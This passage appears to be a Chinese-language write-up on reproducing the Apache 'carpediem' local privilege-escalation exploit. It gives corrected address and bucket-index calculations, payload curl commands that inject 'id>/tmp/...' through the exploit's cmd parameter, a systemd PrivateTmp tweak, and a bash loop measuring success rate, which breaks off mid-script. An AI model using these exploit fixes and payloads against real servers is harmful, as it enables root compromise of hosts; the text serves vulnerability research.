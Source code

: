 2.  `$bucket_index = $bucket_index_middle - (int) ($total_nb_buckets / 2);`
    计算出问题

第一个计算`all_buckets`的地址，使用gdb进行调试，你会发现，这个值并没有算错，但是在执行`apache2ctl graceful`命令以后，`all_buckets`
生成了一个新的值，不过只和之前的`all_buckets`地址差`0x38000`，所以这个问题很好解决：

    <span class="x">$all_buckets = $i - 0x10 + 0x38000;</span>

第二个计算没必要这么复杂，而且在我测试的版本中还是算的错误的地址，直接改成：

    <span class="x">$bucket_index = $bucket_index_middle;</span>

### ubuntu中的一个坑

我的payload是：`curl "http://www.0-sec.org/cfreal-carpediem.php?cmd=id>/tmp/2323232"`

表面上看是执行成功了，但是却并没有在/tmp目录下发现2323232文件，经过随后的研究发现，systemd重定向了apache的tmp目录，执行下`$find /tmp -name "2323232"`就找到文件了，不过只有root用户能访问。如果不想让systemd重定向tmp目录也简单：

    $ cat /lib/systemd/system/apache2.service 
    <span class="o">[</span>Unit<span class="o">]</span>
    <span class="nv">Description</span><span class="o">=</span>The Apache HTTP Server
    <span class="nv">After</span><span class="o">=</span>network.target remote-fs.target nss-lookup.target

    <span class="o">[</span>Service<span class="o">]</span>
    <span class="nv">Type</span><span class="o">=</span>forking
    <span class="nv">Environment</span><span class="o">=</span><span class="nv">APACHE_STARTED_BY_SYSTEMD</span><span class="o">=</span><span class="nb">true</span>
    <span class="nv">ExecStart</span><span class="o">=</span>/usr/sbin/apachectl start
    <span class="nv">ExecStop</span><span class="o">=</span>/usr/sbin/apachectl stop
    <span class="nv">ExecReload</span><span class="o">=</span>/usr/sbin/apachectl graceful
    <span class="nv">PrivateTmp</span><span class="o">=</span><span class="nb">false</span>
    <span class="nv">Restart</span><span class="o">=</span>on-abort

    <span class="o">[</span>Install<span class="o">]</span>
    <span class="nv">WantedBy</span><span class="o">=</span>multi-user.target

### 关于成功率的说法

在exp的注释中看到了说该利用没法100%成功，有失败的概率，所以我写了个脚本进行测试：

    <span class="c1">#!/bin/bash</span>

    <span class="nv">SUCC</span><span class="o">=</span><span class="m">0</span>
    <span class="nv">COUNT</span><span class="o">=</span><span class="m">0</span>
    <span class="k">for</span> i in <span class="k">$(</span>seq <span class="m">1</span> <span class="m">20</span><span class="k">)</span>
    <span class="k">do</span>
    <span class="nb">let</span> <span class="nv">COUNT</span><span class="o">+=</span><span class="m">1</span>
    /etc/init.d/apache2 stop
    sleep <span class="m">1</span>
    /etc/init.d/apache2 start
    <span class="k">if</span> <span class="o">[</span> -f <span class="s2">"/tmp/1982347"</span> <span class="o">]</span><span class="p">;</span><span class="k">then</span>
        rm /tmp/1982347
    <span class="k">fi</span>
    curl <span class="s2">"http://localhost/cfreal-carpediem.php?cmd=id&gt;/tmp/1982347"</span>

